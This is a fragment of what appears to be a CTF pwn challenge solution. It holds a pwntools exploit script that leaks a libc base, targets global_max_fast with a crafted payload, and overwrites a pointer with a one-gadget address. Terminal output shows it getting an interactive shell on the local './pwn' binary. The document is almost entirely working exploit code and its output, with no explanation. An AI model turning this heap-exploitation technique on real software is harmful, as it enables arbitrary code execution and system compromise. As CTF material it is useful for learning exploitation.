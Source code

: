 ```python
l.address = u64(p.recv(6)+'\0\0') - 0x3ebca0

success("libc -> %s" % hex(l.address))

payload = p64(0)
payload += p64(l.address + global_max_fast - 0x10)
p.sendlineafter('name!\n', payload)

p.sendlineafter('(1:big/2:bigger)\n', '1')

payload = p64(0)*(ord('s')-2)
payload += p64(l.address + ones[2])
p.sendlineafter(':\n', payload)

p.interactive()
```

```bash
upwind@ubuntu-18:/mnt/hgfs/share/hws/pwn1$ ./exp.py 
[+] Starting local process './pwn': pid 81669
[+] libc -> 0x7fe735a14000
[*] Switching to interactive mode
$ whoami
upwind
```
